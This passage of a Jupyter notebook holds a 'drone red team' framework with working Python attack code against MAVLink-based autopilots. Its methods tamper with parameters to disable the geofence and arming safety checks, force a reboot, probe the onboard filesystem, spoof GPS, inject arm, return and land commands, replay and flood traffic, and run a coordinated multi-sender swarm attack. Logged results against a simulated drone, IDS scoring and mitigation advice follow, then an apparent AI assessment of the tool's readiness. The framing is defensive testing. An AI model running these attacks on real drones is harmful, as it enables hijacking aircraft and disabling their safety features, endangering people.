            pr_frame   = MAVLinkV2Frame(20, pr_payload, sys_id=255)
            wire_pr, resp_pr = self._send_recv(pr_frame, target, timeout=1.0)
            all_alerts += self.ids.inspect(pr_frame, recv_ts=time.time())
            if resp_pr and resp_pr.msg_id == 22 and len(resp_pr.payload) >= 25:
                val = struct.unpack_from('<f', resp_pr.payload, 0)[0]
                params_read[param_name] = val
        stages['param_read'] = dict(params_read=params_read)

        # ── Stage 3: Parameter tampering ──────────────────────────────
        tamper_results = {}
        tamper_targets = {
            'SYSID_THISMAV': 99.0,    # change drone system ID
            'FENCE_ENABLE':  0.0,     # disable geofence
            'ARMING_CHECK':  0.0,     # disable arming safety checks
        }
        for param_name, new_val in tamper_targets.items():
            pid_bytes = (param_name + '\x00' * 16).encode()[:16]
            ps_payload = struct.pack('<f BB 16s B',
                new_val, 1, 1, pid_bytes, 6
            )
            ps_frame = MAVLinkV2Frame(23, ps_payload, sys_id=255)
            wire_ps, resp_ps = self._send_recv(ps_frame, target, timeout=1.0)
            all_alerts += self.ids.inspect(ps_frame, recv_ts=time.time())
            accepted = resp_ps is not None and resp_ps.msg_id == 22
            if accepted and len(resp_ps.payload) >= 4:
                echoed_val = struct.unpack_from('<f', resp_ps.payload, 0)[0]
                accepted = abs(echoed_val - new_val) < 0.01
            tamper_results[param_name] = dict(
                attempted=new_val,
                accepted=accepted,
                wire_hex=wire_ps.hex()[:32]
            )
        stages['param_tamper'] = tamper_results
        tampered_any = any(v['accepted'] for v in tamper_results.values())

        # ── Bonus: FTP filesystem probe ────────────────────────────────
        ftp_dir = (b'/' + b'\x00' * 238)[:239]
        ftp_inner = struct.pack('<HBBBIB', 0, 0, 3, 1, 0, 0) + ftp_dir
        ftp_payload = struct.pack('<BBB251s', 0, 1, 1, ftp_inner[:251])
        ftp_frame = MAVLinkV2Frame(110, ftp_payload, sys_id=255)
        wire_ftp, resp_ftp = self._send_recv(ftp_frame, target, timeout=1.0)
        all_alerts += self.ids.inspect(ftp_frame, recv_ts=time.time())
        stages['ftp_probe'] = dict(
            sent=True,
            response_msg_id=resp_ftp.msg_id if resp_ftp else None,
            ftp_supported=resp_ftp is not None and resp_ftp.msg_id == 110
        )

        # ── Stage 4: Force reboot ──────────────────────────────────────
        reboot_accepted = False
        if attempt_reboot:
            reboot_frame = MAVMsg.command_long(
                MAVCmd(246), p1=1.0, p2=0.0, sys_id=255  # 246 = PREFLIGHT_REBOOT
            )
            wire_rb, resp_rb = self._send_recv(reboot_frame, target, timeout=2.0)
            all_alerts += self.ids.inspect(reboot_frame, recv_ts=time.time())
            reboot_accepted = (
                resp_rb is not None and resp_rb.msg_id == 77
                and len(resp_rb.payload) >= 3
                and resp_rb.payload[2] == 0
            )
            stages['reboot'] = dict(
                attempted=True,
                accepted=reboot_accepted,
                wire_hex=wire_rb.hex()[:32]
            )

        success = tampered_any or reboot_accepted or stages['fingerprint']['got_version_info']
        detected = bool(all_alerts)

        impact_parts = []
        if stages['fingerprint']['got_version_info']:
            impact_parts.append("firmware version fingerprinted")
        if params_read:
            impact_parts.append(f"{len(params_read)} params read ({', '.join(params_read.keys())})")
        if tampered_any:
            tampered = [k for k, v in tamper_results.items() if v['accepted']]
            impact_parts.append(f"params tampered: {', '.join(tampered)}")
        if reboot_accepted:
            impact_parts.append("REBOOT ACCEPTED")
        if stages['ftp_probe']['ftp_supported']:
            impact_parts.append("FTP filesystem accessible")

        result = AttackResult(
            attack_type="Firmware Exploit",
            target=f"{target_host}:{target_port}",
            timestamp=datetime.now().isoformat(),
            success=success,
            detected=detected,
            impact="; ".join(impact_parts) if impact_parts else "No access gained",
            ids_alerts=[str(a) for a in all_alerts],
            detail=dict(stages=stages)
        )
        self._record(result)
        return result

    # ══════════════════════════════════════════════════════════════════
    # 9. SWARM ATTACK
    #    Coordinates N attacker threads launching simultaneously
    #    against M drone targets using a threading.Barrier.
    #    Each attacker gets its own socket and spoofed sys_id.
    #    Returns per-attacker, per-target outcome matrix.
    # ══════════════════════════════════════════════════════════════════
    def swarm_attack(
        self,
        targets: List[Tuple[str, int]],
        num_attackers: int = 3,
        attack_mix: Optional[List[str]] = None,
        launch_window_ms: float = 50.0
    ) -> AttackResult:
        """
        Coordinated multi-source, multi-target swarm attack.

        num_attackers threads each:
          - Spoof a unique sys_id (100 + attacker_index)
          - Get their own fresh socket
          - Wait on a shared barrier (guaranteed launch within window_ms)
          - Execute their assigned attack against all targets

        attack_mix: list of attack types per attacker thread.
                    Defaults to ['gps', 'cmd_arm', 'cmd_rtl', 'replay', ...]
                    cycled across num_attackers.
        """
        if attack_mix is None:
            attack_mix = ['gps_inject', 'cmd_arm', 'cmd_rtl', 'gps_inject', 'cmd_land']
        attack_mix = (attack_mix * ((num_attackers // len(attack_mix)) + 1))[:num_attackers]

        barrier      = threading.Barrier(num_attackers)
        results_lock = threading.Lock()
        thread_results: List[Dict] = []
        all_ids_alerts: List[str] = []

        def attacker_thread(attacker_idx: int, attack_type: str):
            spoof_sys_id = 100 + attacker_idx
            s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            s.bind(('127.0.0.1', 0))
            s.settimeout(1.5)

            # ── Wait for all threads ──
            try:
                barrier.wait(timeout=2.0)
            except threading.BrokenBarrierError:
                s.close()
                return

            launch_ts = time.perf_counter()
            per_target = []

            for (t_host, t_port) in targets:
                target = (t_host, t_port)

                if attack_type == 'gps_inject':
                    frame = MAVMsg.global_position_int(
                        40.7128 + random.gauss(0, 0.001),
                        -74.006 + random.gauss(0, 0.001),
                        50.0,
                        sys_id=spoof_sys_id,
                        seq=random.randint(0, 255)
                    )
                elif attack_type == 'cmd_arm':
                    frame = MAVMsg.command_long(
                        MAVCmd.COMPONENT_ARM_DISARM,
                        p1=1.0, sys_id=spoof_sys_id
                    )
                elif attack_type == 'cmd_rtl':
                    frame = MAVMsg.command_long(
                        MAVCmd.RETURN_TO_LAUNCH,
                        sys_id=spoof_sys_id
                    )
                elif attack_type == 'cmd_land':
                    frame = MAVMsg.command_long(
                        MAVCmd.LAND, sys_id=spoof_sys_id
                    )
                else:
                    frame = MAVMsg.heartbeat(sys_id=spoof_sys_id)

                wire = frame.to_bytes()
                resp = None
                try:
                    s.sendto(wire, target)
                    data, _ = s.recvfrom(4096)
                    resp = MAVLinkV2Frame.from_bytes(data)
                except socket.timeout:
                    pass

                # Feed to IDS
                alerts = self.ids.inspect(frame, recv_ts=time.time())

                accepted = (
                    resp is not None and resp.msg_id == 77
                    and len(resp.payload) >= 3
                    and resp.payload[2] == 0
                ) if frame.msg_id == 76 else resp is None  # non-cmd: no reject = success

                per_target.append(dict(
                    target=f"{t_host}:{t_port}",
                    attack_type=attack_type,
                    accepted=accepted,
                    got_response=resp is not None,
                    alerts=[str(a) for a in alerts]
                ))

                with results_lock:
                    all_ids_alerts.extend([str(a) for a in alerts])

            s.close()
            with results_lock:
                thread_results.append(dict(
                    attacker_idx=attacker_idx,
                    spoof_sys_id=spoof_sys_id,
                    attack_type=attack_type,
                    launch_ts=launch_ts,
                    targets=per_target
                ))

        # ── Launch all threads ────────────────────────────────────────
        threads = []
        for idx in range(num_attackers):
            t = threading.Thread(
                target=attacker_thread,
                args=(idx, attack_mix[idx]),
                daemon=True
            )
            threads.append(t)

        for t in threads: t.start()
        for t in threads: t.join(timeout=10.0)

        # ── Measure launch spread ─────────────────────────────────────
        if thread_results:
            ts_list = [r['launch_ts'] for r in thread_results]
            spread_ms = (max(ts_list) - min(ts_list)) * 1000
        else:
            spread_ms = 0.0

        # ── Aggregate outcomes ────────────────────────────────────────
        total_attacks  = sum(len(r['targets']) for r in thread_results)
        accepted_count = sum(
            1 for r in thread_results
            for t in r['targets']
            if t['accepted']
        )
        success = accepted_count > 0

        impact = (
            f"Swarm of {num_attackers} attackers vs {len(targets)} target(s) — "
            f"{accepted_count}/{total_attacks} attacks accepted — "
            f"launch spread={spread_ms:.1f}ms "
            f"({'coordinated' if spread_ms < launch_window_ms else 'uncoordinated'})"
        )

        result = AttackResult(
            attack_type="Swarm Attack",
            target=", ".join(f"{h}:{p}" for h, p in targets),
            timestamp=datetime.now().isoformat(),
            success=success,
            detected=bool(all_ids_alerts),
            impact=impact,
            ids_alerts=list(dict.fromkeys(all_ids_alerts))[:20],
            detail=dict(
                num_attackers=num_attackers,
                num_targets=len(targets),
                total_attacks=total_attacks,
                accepted_count=accepted_count,
                launch_spread_ms=round(spread_ms, 2),
                coordinated=spread_ms < launch_window_ms,
                attack_mix=attack_mix,
                thread_results=thread_results
            )
        )
        self._record(result)
        return result

    def close(self):

        if self._sock:
            self._sock.close()
            self._sock = None

    # ── Report ────────────────────────────────────────────────────────

    def generate_report(self) -> Dict:
        total   = len(self.results)
        success = sum(1 for r in self.results if r.success)
        detect  = sum(1 for r in self.results if r.detected)
        detect_of_success = sum(1 for r in self.results if r.detected and r.success)
        by_type: Dict[str, Dict] = {}
        for r in self.results:
            bt = by_type.setdefault(r.attack_type, dict(attempts=0, success=0, detected=0))
            bt['attempts']  += 1
            bt['success']   += int(r.success)
            bt['detected']  += int(r.detected)
        return dict(
            assessment_date  = datetime.now().isoformat(),
            total_attempts   = total,
            successful       = success,
            detected         = detect,
            undetected       = success - detect_of_success,
            success_rate_pct = round(success / max(1, total) * 100, 1),
            detection_rate_pct = round(detect_of_success / max(1, success) * 100, 1),
            by_attack_type   = by_type,
            ids_summary      = self.ids.summary(),
            results          = [asdict(r) for r in self.results],
            recommendations  = self._recommendations()
        )

    def _recommendations(self) -> List[str]:
        recs = []
        for r in self.results:
            if r.success and not r.detected:
                if 'GPS' in r.attack_type:
                    recs.append("Deploy Kalman-filter GPS anomaly detection on GCS")
                if 'Command' in r.attack_type or 'Rogue' in r.attack_type:
                    recs.append("Enable MAVLink v2 message signing (INCOMPAT flag 0x01)")
                if 'Replay' in r.attack_type:
                    recs.append("Enforce MAVLink v2 signed timestamps to prevent replay")
                if 'Flood' in r.attack_type:
                    recs.append("Implement rate-limiting and timing jitter IDS on GCS link")
                if 'Supply' in r.attack_type:
                    recs.append("Restrict AUTOPILOT_VERSION_REQUEST to authenticated GCS only")
                if 'Firmware' in r.attack_type:
                    recs.append("Restrict PARAM_SET to authenticated GCS; enable parameter write protection")
                    recs.append("Disable PREFLIGHT_REBOOT from untrusted senders")
                    recs.append("Disable FILE_TRANSFER_PROTOCOL in production firmware")
                if 'Swarm' in r.attack_type:
                    recs.append("Deploy multi-source correlation in IDS — swarm detection requires cross-sys_id analysis")
                    recs.append("Rate-limit commands per sys_id on GCS link layer")
                if 'Flood' in r.attack_type:
                    recs.append("Implement MAVLink rate-limiting and message-type filtering on GCS receiver")
        return list(dict.fromkeys(recs))   # deduplicate, preserve order


print("RedTeamEngine: OK")


RedTeamEngine: OK


In [ ]:
# ════════════════════════════════════════════════════════
#  Run Scenario
#
#  Auto-detects SITL. Falls back to SimulatedDrone.
#  Runs all 6 attack types and feeds results through IDS.
# ════════════════════════════════════════════════════════

TARGET_HOST = '127.0.0.1'
TARGET_PORT = 14550

# ── Try SITL first ────────────────────────────────────────────────────────────
sitl_conn = SITLConnector(host=TARGET_HOST, port=TARGET_PORT)
sitl_available = sitl_conn.connect(timeout=2.0)

drone_proc = None
if sitl_available:
    print(f"SITL detected at {TARGET_HOST}:{TARGET_PORT} — attacking live firmware")
else:
    print("SITL not running — starting SimulatedDrone on port 14550")
    TARGET_PORT = 14550
    _sim_state = DroneState(sys_id=1, auth_required=False, comms_encrypted=False)
    drone_proc = SimulatedDrone(_sim_state, listen_port=TARGET_PORT, telemetry_hz=4.0)
    drone_proc.start()
    time.sleep(1.0)   # let drone spin up

# ── Initialise IDS and Red Team ───────────────────────────────────────────────
ids    = DroneIDS(gps_threshold_m=50.0, seq_gap_threshold=2, jitter_threshold=0.4)
engine = RedTeamEngine(ids=ids)

# ── Warm up IDS with normal traffic ──────────────────────────────────────────
print("\nPhase 1: IDS baseline (60 normal frames)...")
_rx = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
_rx.bind(('127.0.0.1', 0))
_rx.settimeout(0.3)
# Stimulate telemetry
_hb_frame = MAVMsg.heartbeat(sys_id=255).to_bytes()
_rx.sendto(_hb_frame, (TARGET_HOST, TARGET_PORT))
for _ in range(60):
    try:
        _data, _ = _rx.recvfrom(4096)
        _f = MAVLinkV2Frame.from_bytes(_data)
        if _f: ids.inspect(_f, recv_ts=time.time())
    except socket.timeout: pass
    time.sleep(0.05)
_rx.close()
print(f"  Baseline complete — IDS alerts so far: {len(ids.alerts)}")

# ── Prime drone: send one heartbeat from engine socket so drone
# learns our address and can route command ACKs back correctly.
_prime_sock = engine._get_sock()
_prime_sock.sendto(MAVMsg.heartbeat(sys_id=255).to_bytes(), (TARGET_HOST, TARGET_PORT))
time.sleep(0.3)

# ── Attack phase ──────────────────────────────────────────────────────────────
print("\nPhase 2: Red Team attacks...")
print("-" * 55)

# 1. GPS Coordinate Injection — spoof position to NYC
print("\n[1/9] GPS Coordinate Injection")
r1 = engine.gps_coordinate_injection(
    TARGET_HOST, TARGET_PORT,
    fake_lat=40.7128, fake_lon=-74.0060, fake_alt=50.0,
    spoof_sys_id=1
)
print(f"  {r1.summary()}")
print(f"  Wire: {r1.wire_sent[:96]}...")

# 2. Command Injection — ARM the drone
print("\n[2/9] Command Injection (ARM)")
r2 = engine.command_injection(
    TARGET_HOST, TARGET_PORT,
    command=MAVCmd.COMPONENT_ARM_DISARM,
    p1=1.0   # arm
)
print(f"  {r2.summary()}")

# 3. Command Injection — Force RTL
print("\n[3/9] Command Injection (RTL)")
r3 = engine.command_injection(
    TARGET_HOST, TARGET_PORT,
    command=MAVCmd.RETURN_TO_LAUNCH
)
print(f"  {r3.summary()}")

# 4. Replay Attack — replay the GPS inject frame
print("\n[4/9] Replay Attack (replaying GPS frame with 1s delay)")
captured = MAVMsg.global_position_int(37.7749, -122.4194, 100.0, sys_id=1, seq=10)
r4 = engine.replay_attack(TARGET_HOST, TARGET_PORT, captured, delay_s=1.0)
print(f"  {r4.summary()}")

# 5. Rogue GCS Injection — send RTL from unknown sys_id
print("\n[5/9] Rogue GCS Injection (sys_id=99)")
r5 = engine.rogue_gcs_injection(
    TARGET_HOST, TARGET_PORT,
    rogue_sys_id=99,
    command=MAVCmd.RETURN_TO_LAUNCH
)
print(f"  {r5.summary()}")

# 6. Supply Chain Probe — firmware recon
print("\n[6/9] Supply Chain Probe (firmware recon)")
r6 = engine.supply_chain_probe(TARGET_HOST, TARGET_PORT)
print(f"  {r6.summary()}")

# 7. Telemetry Flood (upgraded — multi-type with latency measurement)
print("\n[7/9] Telemetry Flood (3s, 500 pps, latency measurement)")
r7 = engine.telemetry_flood(
    TARGET_HOST, TARGET_PORT,
    duration_s=3.0,
    packets_per_sec=500.0,
    measure_latency=True
)
print(f"  {r7.summary()}")
print(f"  {r7.detail.get('actual_pps', 0):.0f} pps  {r7.detail.get('actual_kbps', 0):.1f} kbps")
if r7.detail.get('baseline_rtt_ms'):
    print(f"  Baseline RTT: {r7.detail['baseline_rtt_ms']:.1f}ms  "
          f"Impact RTT: {r7.detail.get('impact_rtt_ms', 'N/A')}")

# 8. Firmware Exploit
print("\n[8/9] Firmware Exploit (fingerprint + param read/tamper + reboot probe)")
r8 = engine.firmware_exploit(
    TARGET_HOST, TARGET_PORT,
    attempt_reboot=True
)
print(f"  {r8.summary()}")
stages = r8.detail.get('stages', {})
if stages.get('param_read', {}).get('params_read'):
    print(f"  Params read: {stages['param_read']['params_read']}")
if stages.get('param_tamper'):
    for pname, pres in stages['param_tamper'].items():
        print(f"  PARAM_SET {pname}={pres['attempted']}: {'ACCEPTED' if pres['accepted'] else 'rejected'}")
if stages.get('reboot', {}).get('accepted'):
    print("  *** REBOOT ACCEPTED ***")

# 9. Swarm Attack
print("\n[9/9] Swarm Attack (4 coordinated attackers)")
r9 = engine.swarm_attack(
    targets=[(TARGET_HOST, TARGET_PORT)],
    num_attackers=4,
    attack_mix=['gps_inject', 'cmd_arm', 'cmd_rtl', 'cmd_land'],
    launch_window_ms=50.0
)
print(f"  {r9.summary()}")
d = r9.detail
print(f"  Launch spread: {d.get('launch_spread_ms', 0):.1f}ms "
      f"({'coordinated' if d.get('coordinated') else 'uncoordinated'})")
print(f"  Accepted: {d.get('accepted_count', 0)}/{d.get('total_attacks', 0)}")

engine.close()
print("\n" + "-" * 55)
print("Attack phase complete.")


SITL not running — starting SimulatedDrone on port 14550

Phase 1: IDS baseline (60 normal frames)...
  Baseline complete — IDS alerts so far: 0



Phase 2: Red Team attacks...
-------------------------------------------------------

[1/9] GPS Coordinate Injection
  [DETECTED] GPS Coordinate Injection → 127.0.0.1:14550 success=True  impact=Position estimate corrupted
  Wire: fd1c0000640101210000927ee9f6c0474418a094e3d350c3000050c3000000000000000000004da6...

[2/9] Command Injection (ARM)
  [UNDETECTED] Command Injection (COMPONENT_ARM_DISARM) → 127.0.0.1:14550 success=True  impact=Command COMPONENT_ARM_DISARM executed

[3/9] Command Injection (RTL)
  [DETECTED] Command Injection (RETURN_TO_LAUNCH) → 127.0.0.1:14550 success=True  impact=Command RETURN_TO_LAUNCH executed

[4/9] Replay Attack (replaying GPS frame with 1s delay)


  [DETECTED] Replay Attack → 127.0.0.1:14550 success=True  impact=Detected by IDS

[5/9] Rogue GCS Injection (sys_id=99)
  [DETECTED] Rogue GCS Injection → 127.0.0.1:14550 success=True  impact=Rogue command RETURN_TO_LAUNCH sent from sys_id=99

[6/9] Supply Chain Probe (firmware recon)
  [UNDETECTED] Supply Chain Probe (Firmware Recon) → 127.0.0.1:14550 success=True  impact=Firmware version fingerprinted

[7/9] Telemetry Flood (3s, 500 pps, latency measurement)


  [DETECTED] Telemetry Flood → 127.0.0.1:14550 success=True  impact=Link flooded: 217 pkts, 72 pps, 23.8 kbps — latency impact: Link saturated — drone unresponsive (baseline 171.5ms)
  72 pps  23.8 kbps
  Baseline RTT: 171.5ms  Impact RTT: 15.08

[8/9] Firmware Exploit (fingerprint + param read/tamper + reboot probe)
  [DETECTED] Firmware Exploit → 127.0.0.1:14550 success=True  impact=firmware version fingerprinted; 4 params read (SYSID_THISMAV, ARMING_CHECK, FENCE_ENABLE, FS_THR_ENABLE); params tampered: SYSID_THISMAV, FENCE_ENABLE, ARMING_CHECK; FTP filesystem accessible
  Params read: {'SYSID_THISMAV': 1.0, 'ARMING_CHECK': 1.0, 'FENCE_ENABLE': 0.0, 'FS_THR_ENABLE': 1.0}
  PARAM_SET SYSID_THISMAV=99.0: ACCEPTED
  PARAM_SET FENCE_ENABLE=0.0: ACCEPTED
  PARAM_SET ARMING_CHECK=0.0: ACCEPTED

[9/9] Swarm Attack (4 coordinated attackers)


  [DETECTED] Swarm Attack → 127.0.0.1:14550 success=True  impact=Swarm of 4 attackers vs 1 target(s) — 4/4 attacks accepted — launch spread=2.2ms (coordinated)
  Launch spread: 2.2ms (coordinated)
  Accepted: 4/4

-------------------------------------------------------
Attack phase complete.


In [ ]:
# ════════════════════════════════════════════════════════
#  Structured Report
# ════════════════════════════════════════════════════════

report = engine.generate_report()

print("\n" + "="*60)
print("  DRONE CYBERSECURITY RED TEAM REPORT")
print("="*60)
print(f"  Date:              {report['assessment_date']}")
print(f"  Total attacks:     {report['total_attempts']}")
print(f"  Successful:        {report['successful']}")
print(f"  Detected by IDS:   {report['detected']}")
print(f"  Undetected:        {report['undetected']}")
print(f"  Success rate:      {report['success_rate_pct']}%")
print(f"  Detection rate:    {report['detection_rate_pct']}%")

print("\n  By Attack Type:")
for atype, stats in report['by_attack_type'].items():
    print(f"    {atype}")
    print(f"      attempts={stats['attempts']}  "
          f"success={stats['success']}  "
          f"detected={stats['detected']}")

print("\n  IDS Summary:")
ids_s = report['ids_summary']
print(f"    Total alerts:  {ids_s['total_alerts']}")
print(f"    By engine:     {ids_s['by_engine']}")
print(f"    By severity:   {ids_s['by_severity']}")
if ids_s['recent']:
    print("    Recent:")
    for a in ids_s['recent']:
        print(f"      {a}")

if report['recommendations']:
    print("\n  Recommendations:")
    for rec in report['recommendations']:
        print(f"    • {rec}")

print("="*60)

# Store for visualisation cell
_report = report



  DRONE CYBERSECURITY RED TEAM REPORT
  Date:              2026-03-16T13:50:29.467803
  Total attacks:     9
  Successful:        9
  Detected by IDS:   7
  Undetected:        2
  Success rate:      100.0%
  Detection rate:    77.8%

  By Attack Type:
    GPS Coordinate Injection
      attempts=1  success=1  detected=1
    Command Injection (COMPONENT_ARM_DISARM)
      attempts=1  success=1  detected=0
    Command Injection (RETURN_TO_LAUNCH)
      attempts=1  success=1  detected=1
    Replay Attack
      attempts=1  success=1  detected=1
    Rogue GCS Injection
      attempts=1  success=1  detected=1
    Supply Chain Probe (Firmware Recon)
      attempts=1  success=1  detected=0
    Telemetry Flood
      attempts=1  success=1  detected=1
    Firmware Exploit
      attempts=1  success=1  detected=1
    Swarm Attack
      attempts=1  success=1  detected=1

  IDS Summary:
    Total alerts:  596
    By engine:     {'SequenceGap': 220, 'GPSSpoofing': 76, 'TimingJitter': 106, 'RogueSender'



Dashboard saved as redteam_dashboard.png


In [ ]:
import matplotlib.pyplot as plt
import matplotlib.patches as mpatches
import pandas as pd
import numpy as np

report = _report
results = report.get('results', [])
ids_s   = report.get('ids_summary', {})

fig, axes = plt.subplots(2, 2, figsize=(14, 10))
fig.suptitle('Drone Red Team — Results Dashboard', fontsize=15, fontweight='bold')

# ── Chart 1: Attack outcomes (stacked bar) ────────────────────────────────────
ax1 = axes[0, 0]
by_type = report.get('by_attack_type', {})
labels  = [t[:25] for t in by_type]
success_undetected = [v['success'] - v['detected'] for v in by_type.values()]
success_detected   = [v['detected'] for v in by_type.values()]
failed             = [v['attempts'] - v['success'] for v in by_type.values()]
x = np.arange(len(labels))
w = 0.5
ax1.bar(x, success_undetected, w, label='Successful & Undetected', color='#d62728')
ax1.bar(x, success_detected,   w, bottom=success_undetected,
        label='Successful & Detected', color='#ff7f0e')
ax1.bar(x, failed, w,
        bottom=[a+b for a,b in zip(success_undetected, success_detected)],
        label='Failed', color='#2ca02c')
ax1.set_xticks(x); ax1.set_xticklabels(labels, rotation=30, ha='right', fontsize=8)
ax1.set_ylabel('Count'); ax1.set_title('Attack Outcomes by Type')
ax1.legend(fontsize=8)

# ── Chart 2: IDS alerts by engine ────────────────────────────────────────────
ax2 = axes[0, 1]
eng = ids_s.get('by_engine', {})
if eng:
    ax2.pie(eng.values(), labels=eng.keys(), autopct='%1.0f%%',
            colors=['#1f77b4','#ff7f0e','#2ca02c','#d62728'],
            startangle=90, textprops={'fontsize': 9})
    ax2.set_title('IDS Alerts by Engine')
else:
    ax2.text(0.5, 0.5, 'No IDS alerts', ha='center', va='center', fontsize=12)
    ax2.set_title('IDS Alerts by Engine')

# ── Chart 3: Detection rate per attack ────────────────────────────────────────
ax3 = axes[1, 0]
det_rates = []
for atype, stats in by_type.items():
    rate = (stats['detected'] / stats['success'] * 100) if stats['success'] else 0
    det_rates.append((atype[:22], rate))
det_rates.sort(key=lambda x: x[1])
names, rates = zip(*det_rates) if det_rates else ([], [])
colors = ['#2ca02c' if r >= 80 else '#ff7f0e' if r >= 40 else '#d62728'
          for r in rates]
ax3.barh(names, rates, color=colors)
ax3.set_xlim(0, 105)
ax3.set_xlabel('Detection Rate (%)')
ax3.set_title('IDS Detection Rate per Attack Type')
ax3.axvline(80, color='green', linestyle='--', alpha=0.5, label='80% target')
ax3.legend(fontsize=8)

# ── Chart 4: Summary scorecard ────────────────────────────────────────────────
ax4 = axes[1, 1]
ax4.axis('off')
total   = report['total_attempts']
success = report['successful']
detect  = report['detected']
undet   = report['undetected']
det_pct = report['detection_rate_pct']
suc_pct = report['success_rate_pct']

scorecard = [
    ('Total Attacks',        total,   '#333333'),
    ('Successful',           success, '#d62728' if success > total//2 else '#ff7f0e'),
    ('Detected by IDS',      detect,  '#2ca02c'),
    ('Undetected',           undet,   '#d62728' if undet > 0 else '#2ca02c'),
    ('Success Rate',         f'{suc_pct}%', '#555555'),
    ('IDS Detection Rate',   f'{det_pct}%',
        '#2ca02c' if det_pct >= 80 else '#ff7f0e' if det_pct >= 50 else '#d62728'),
    ('Total IDS Alerts',     ids_s.get('total_alerts', 0), '#1f77b4'),
]
for i, (label, value, color) in enumerate(scorecard):
    y = 0.92 - i * 0.13
    ax4.text(0.05, y, label, transform=ax4.transAxes,
             fontsize=10, color='#444444')
    ax4.text(0.75, y, str(value), transform=ax4.transAxes,
             fontsize=11, fontweight='bold', color=color, ha='right')
ax4.set_title('Summary Scorecard', fontweight='bold')

plt.tight_layout()
plt.savefig('redteam_dashboard.png', dpi=150, bbox_inches='tight')
plt.show()
print("Dashboard saved as redteam_dashboard.png")


In [ ]:
# ── Cleanup ───────────────────────────────────────────────────────────────────
if drone_proc:
    drone_proc.stop()
    print("SimulatedDrone stopped.")
if sitl_conn and sitl_conn.connected:
    sitl_conn.disconnect()
    print("SITL disconnected.")
print("Done.")


SimulatedDrone stopped.
Done.


Based on the description of the Drone Cybersecurity Red Team Framework and its implementation details, I would assess this prototype to be at Technology Readiness Level (TRL) 4 to 5, verging on 6.

Here's why:

TRL 4 (Component and/or breadboard validation in laboratory environment): The framework has a highly detailed architecture, with individually implemented components (MAVLink v2 engine, IDS modules, attack engines, SITL connector, simulated drone). Each of these components, and their integration, has been validated through self-tests and a full scenario execution within the Colab environment, acting as a laboratory setting.
TRL 5 (Component and/or breadboard validation in relevant environment): The framework is designed to connect to Software-In-The-Loop (SITL) simulations (ArduPilot/PX4 firmware), which represent a 'relevant environment' for drone operation, even if not a live flight. While the scenario run indicated SITL wasn't available and fell back to a simulated drone, the capability and design for SITL integration push it beyond a pure lab setup.
TRL 6 (System/subsystem model or prototype demonstration in a relevant environment): The comprehensive end-to-end scenario, including attack execution and IDS reporting against a simulated drone (which closely mimics SITL behavior), demonstrates the framework's capabilities as a functional prototype in a representative operational context for cybersecurity testing.
It's a robust, functional prototype that has proven its core capabilities in a high-fidelity simulated environment, making it suitable for further development, testing against live SITL, and eventually, integration into real-world drone security assessments.